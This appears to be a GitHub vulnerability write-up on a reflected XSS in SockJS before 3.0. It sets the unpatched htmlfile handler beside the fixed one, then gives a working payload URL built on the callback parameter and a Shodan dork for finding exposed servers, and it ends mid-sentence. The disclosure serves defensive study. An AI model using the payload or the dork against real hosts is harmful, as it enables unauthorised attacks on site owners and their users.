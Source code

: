 ## Reflected-XSS-on-SockJS

# Summary:

There is a **Reflected XSS** in SockJS on versions before of 3.0.

# Vulnerable file:

The old versions problem is that the vulnerable file, *https://github.com/sockjs/sockjs-node/blob/master/lib/transport/htmlfile.js* and its function *htmlfile* is not checking the non-alphanumeric symbols:

```
function htmlfile(req, res, _head, next) {
  if (!('c' in req.query || 'callback' in req.query)) {
    return next({
      status: 500,
      message: '"callback" parameter required'
    });
  }
  const callback = 'c' in req.query ? req.query['c'] : req.query['callback'];
  
  }

  res.setHeader('Content-Type', 'text/html; charset=UTF-8');
  res.writeHead(200);
  res.write(iframe_template.replace(/{{ callback }}/g, callback));

  Session.register(req, this, new HtmlFileReceiver(req, res, this.options));
  next();
}
```

New versions check this, fixing the XSS :
``````
function htmlfile(req, res, _head, next) {
  if (!('c' in req.query || 'callback' in req.query)) {
    return next({
      status: 500,
      message: '"callback" parameter required'
    });
  }
  const callback = 'c' in req.query ? req.query['c'] : req.query['callback'];
  if (/[^a-zA-Z0-9-_.]/.test(callback)) {
    return next({
      status: 500,
      message: 'invalid "callback" parameter'
    });
  }

  res.setHeader('Content-Type', 'text/html; charset=UTF-8');
  res.writeHead(200);
  res.write(iframe_template.replace(/{{ callback }}/g, callback));

  Session.register(req, this, new HtmlFileReceiver(req, res, this.options));
  next();
}

``````
# Payload:

Payload to execute a RXSS is the next one:


https://<vulnerablehost>/<vulnerable_dir>/000/<some_UUID>/htmlfile?c=alert(%27SOCKJS%27)//
  
For example:

https://<vulnerablehost>/<vulnerable_dir>/000/0d1d5bc5-d326-4690-9e25-e08ef24a7e3a/htmlfile?c=alert(%27SOCKJS%27)//

![alt text](https://github.com/theyiyibest/Reflected-XSS-on-SockJS/blob/master/CVE%20Alert.JPG)
 
# Fix

New versions of this library are fixed.

# Bonus: Shodan recon
If you use the following dork: **html:"Welcome to SockJS!"** you will find some vulnerable servers. Just try 
